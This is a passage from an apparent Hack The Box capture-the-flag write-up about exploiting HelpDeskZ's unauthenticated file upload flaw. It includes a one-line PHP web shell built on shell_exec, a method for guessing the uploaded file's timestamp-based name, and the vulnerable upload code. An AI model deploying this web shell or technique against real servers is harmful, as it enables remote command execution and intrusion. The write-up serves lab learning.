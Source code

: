 Searching Google for an exploit in HelpDeskZ led me to EDB-ID [40300](https://www.exploit-db.com/exploits/40300). Anyway, it looks like the site is running the vulnerable version.


{% include image.html image_alt="ab9defc0.png" image_src="/d96d74aa-f362-4ac7-b27f-dde35a0de85c/ab9defc0.png" %}


According to the exploit, HelpDeskZ suffers from an unauthenticated arbitrary file upload vulnerability where the software allows file attachment with ticket submission. The minor problem lies with determining the filename of the uploaded file. However, because the eventual file name depends on the time the file was uploaded, we can make an educated guess of the timestamp by shaving a couple of seconds from the current time.

Let's submit a fake ticket and attach `test.php`, which is nothing more than the following PHP code.

```
<pre>
<?php echo shell_exec($_GET[0]); ?>
</pre>
```


{% include image.html image_alt="f5e7fc4c.png" image_src="/d96d74aa-f362-4ac7-b27f-dde35a0de85c/f5e7fc4c.png" %}



{% include image.html image_alt="9687e6bb.png" image_src="/d96d74aa-f362-4ac7-b27f-dde35a0de85c/9687e6bb.png" %}


Hmm. It says "File is not allowed". Is that so? Let's take a look at the source code controlling this behavior.

```php
if(!isset($error_msg) && $settings['ticket_attachment']==1){
  $uploaddir = UPLOAD_DIR.'tickets/';   
  if($_FILES['attachment']['error'] == 0){
    $ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
    $filename = md5($_FILES['attachment']['name'].time()).".".$ext;
    $fileuploaded[] = array('name' => $_FILES['attachment']['name'], 'enc' => $filename, 'size' => formatBytes($_FILES['attachment']['size']), 'filetype' => $_FILES['attachment']['type']);
    $uploadedfile = $uploaddir.$filename;
    if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
      $show_step2 = true;
      $error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
    }else{
      $fileverification = verifyAttachment($_FILES['attachment']);
      switch($fileverification['msg_code']){
        case '1':
        $show_step2 = true;
        $error_msg = $LANG['INVALID_FILE_EXTENSION'];
        break;
        case '2':
        $show_step2 = true;
        $error_msg = $LANG['FILE_NOT_ALLOWED'];
        break;
        case '3':
        $show_step2 = true;
        $error_msg = str_replace('%size%',$fileverification['msg_extra'],$LANG['FILE_IS_BIG']);
        break;
      }
    }
  }
}

```


[1]: https://www.hackthebox.eu/home/machines/profile/170
[2]: https://www.hackthebox.eu/home/users/profile/3079
[3]: https://www.hackthebox.eu/